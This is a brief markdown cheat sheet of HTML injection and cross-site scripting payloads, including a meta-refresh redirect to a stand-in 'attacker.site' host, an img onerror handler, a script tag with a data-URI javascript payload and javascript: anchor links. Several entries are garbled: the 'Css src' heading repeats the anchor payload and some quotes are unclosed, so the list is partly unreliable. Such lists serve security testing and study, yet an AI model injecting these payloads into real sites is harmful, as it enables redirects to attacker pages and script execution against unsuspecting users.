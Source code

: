 ## Redirect

### Meta <i> (useful for websites that supports only few markdown features) </i>
```html
<meta http-equiv="refresh" content='0; url=http://attacker.site/'>
```

### Object
```html
<object data="/path" type="text/html"></object>
```
<br>

## Execution

### Img
```html
<img src=x onerror="something();"/>
```

### Script src
```html
<script src="data:\xD4\x8F,javascript:alert(1)">
```

### A Tag
```html
<a href="javascript:alert(1)>
```

### Css src
```html
<a href="javascript:alert(1)>
```
